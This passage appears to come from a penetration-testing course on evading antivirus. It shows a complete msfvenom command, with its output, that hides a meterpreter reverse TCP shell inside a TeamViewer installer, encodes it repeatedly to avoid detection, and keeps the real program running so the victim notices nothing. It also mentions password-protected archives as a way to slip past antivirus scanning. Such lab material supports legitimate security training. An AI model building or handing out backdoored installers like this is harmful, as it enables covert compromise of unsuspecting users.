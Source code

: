 We are in luck because `msfvenom` offers the option of using executable templates. This allows us to use some pre-set templates for executable files, inject our payload into them (no pun intended), and use `any` executable as a platform from which we can launch our attack. We can embed the shellcode into any installer, package, or program that we have at hand, hiding the payload shellcode deep within the legitimate code of the actual product. This greatly obfuscates our malicious code and, more importantly, lowers our detection chances. There are many valid combinations between actual, legitimate executable files, our different encoding schemes (and their iterations), and our different payload shellcode variants. This generates what is called a backdoored executable.

Take a look at the snippet below to understand how msfvenom can embed payloads into any executable file:

```shell-session
codenvibes@htb[/htb]$ msfvenom windows/x86/meterpreter_reverse_tcp LHOST=10.10.14.2 LPORT=8080 -k -x ~/Downloads/TeamViewer_Setup.exe -e x86/shikata_ga_nai -a x86 --platform windows -o ~/Desktop/TeamViewer_Setup.exe -i 5

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 5 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 27 (iteration=0)
x86/shikata_ga_nai succeeded with size 54 (iteration=1)
x86/shikata_ga_nai succeeded with size 81 (iteration=2)
x86/shikata_ga_nai succeeded with size 108 (iteration=3)
x86/shikata_ga_nai succeeded with size 135 (iteration=4)
x86/shikata_ga_nai chosen with final size 135
Payload size: 135 bytes
Saved as: /home/user/Desktop/TeamViewer_Setup.exe
```

```shell-session
codenvibes@htb[/htb]$ ls

Pictures-of-cats.tar.gz  TeamViewer_Setup.exe  Cake_recipes
```

For the most part, when a target launches a backdoored executable, nothing will appear to happen, which can raise suspicions in some cases. To improve our chances, we need to trigger the continuation of the normal execution of the launched application while pulling the payload in a separate thread from the main application. We do so with the `-k` flag as it appears above. However, even with the `-k` flag running, the target will only notice the running backdoor if they launch the backdoored executable template from a CLI environment. If they do so, a separate window will pop up with the payload, which will not close until we finish running the payload session interaction on the target.

---

## Archives

Archiving a piece of information such as a file, folder, script, executable, picture, or document and placing a password on the archive bypasses a lot of common anti-virus signatures today. However, the downside of this process is that they will be raised as notifications in the AV alarm dashboard as being unable to be scanned due to being locked with a password. An administrator can choose to manually inspect these archives to determine if they are malicious or not.
